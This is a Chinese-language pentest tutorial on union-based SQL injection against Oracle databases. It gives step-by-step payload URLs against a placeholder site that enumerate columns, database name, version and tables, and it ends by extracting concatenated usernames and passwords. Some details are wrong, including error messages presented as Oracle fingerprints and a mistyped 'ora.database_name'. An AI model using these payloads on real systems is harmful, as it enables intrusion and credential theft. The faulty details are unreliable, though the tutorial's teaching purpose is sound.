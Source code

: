 ## 基于联合查询 union

到目前为止，我们学习了注入MySQL和SQL注入测试的基础知识，并在其他教程中找到注入点。在本教程中，我们将学习如何注入基于Oracle的网站。

在Oracle和其他注入中，找到注入点并制作联合选择语句是相同的，所以我们将继续其余部分，如果你在这之前没有阅读所有的[基本教程](http://securityidiots.com/Web-Pentest/SQL-Injection/)和其他…那么我建议你阅读它们来理解这篇文章。

可以帮助您区分ORACLE db和其他的一些常见错误是
  
```sql
Microsoft OLE DB Provider for ODBC Drivers error '80004005' 
Microsoft VBScript runtime error '800a01a8'
```
 
因此，让我们开始并使用“order by”子句找出列数。

```sql
www.vuln-web.com/photo.php?id=1' order by 1--
Working

www.vuln-web.com/photo.php?id=1-' order by 10--

www.vuln-web.com/photo.php?id=1' order by 7--
Working
www.vuln-web.com/photo.php?id=1' order by 9--
Working
```

所以现在我们知道9是最后一个有效的列，让我们准备联合选择语句
  
```sql
www.vuln-web.com/photo.php?id=1' union select 1,2,3,4,5,6,7,8,9--
Error : FROM keyword not found where expected

www.vuln-web.com/photo.php?id=1' union select 1,2,3,4,5,6,7,8,9 from dual--
Error : expression must have same datatype as corresponding expression

www.vuln-web.com/photo.php?id=1' union select null,null,null,null,null,null,null,null,null from dual--
Working fine
```

与MySQL不同，'Oracle不允许没有from子句的select语句.'由于我们已经准备好了Union select语句，我们的下一个任务是检查哪些列正在打印，我们可以通过打印当前库名逐一随机测试每列来完成

```sql
www.vuln-web.com/photo.php?id=1' union select '1111',null,null,null,null,null,null,null,null from dual--
Error

www.vuln-web.com/photo.php?id=1' union select null,'2222',null,null,null,null,null,null,null from dual--
2222 gets Printed
```
这意味着我们可以从现在开始使用第二列。现在要获取数据库名称，我们可以使用：
(select ora_database_name from dual)  
(select sys.database_name from dual)  
(select global_name from global_name)  
```sql
www.vuln-web.com/photo.php?id=1' union select null,ora.database_name,null,null,null,null,null,null,null from dual--
```
获取用户名： 
(select user from DUAL)  
(select user from users)  
  ```sql
www.vuln-web.com/photo.php?id=1' union select null,user,null,null,null,null,null,null,null from dual--
```

获取版本： 
(select banner from v$version where rownum=1)  
  
```sql
www.vuln-web.com/photo.php?id=1' union select null,(select banner from v$version where rownum=1),null,null,null,null,null,null,null from dual--
```

获取表名: (select table_name from all_tables)  
  
```sql
www.vuln-web.com/photo.php?id=1' union select null,table_name,null,null,null,null,null,null,null from all_tables--
```

获取特定表的列 (用 user_table):  (select column_name from all_tab_columns where table_name='Your_Table_name_here')  
  
```sql
www.vuln-web.com/photo.php?id=1' union select null,column_name,null,null,null,null,null,null,null from all_tab_columns where table_name='user_table'--
```

要从某些列中提取数据，我们可以使用以下查询以及||作为连接运算符：  (select username||password from table_name_here)  
  
```sql
www.vuln-web.com/photo.php?id=1' union select null,username||password,null,null,null,null,null,null,null from user_table--
```